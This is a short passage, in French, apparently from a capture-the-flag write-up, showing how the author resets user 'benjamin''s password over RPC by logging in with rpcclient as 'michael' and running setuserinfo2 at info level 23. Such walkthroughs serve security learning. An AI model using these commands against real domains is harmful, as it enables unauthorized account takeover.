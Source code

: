 
---

### 🔁 Reset du mot de passe via rpcclient

J’ai pas besoin de shell pour ça. Je passe direct par `rpcclient` :

```bash
rpcclient -U michael 10.10.11.42
```

Une fois dedans, je balance :

```bash
setuserinfo2 benjamin 23 'benjamin'
```
🧠 Ici, `23` correspond au niveau de sécurité de l’opération (set password). C’est une vieille astuce avec `rpcclient` pour modifier un mot de passe d’un user sans shell, juste via RPC.

![NerdCat](../assets/memes/NerdCat.png){ width="300" }
 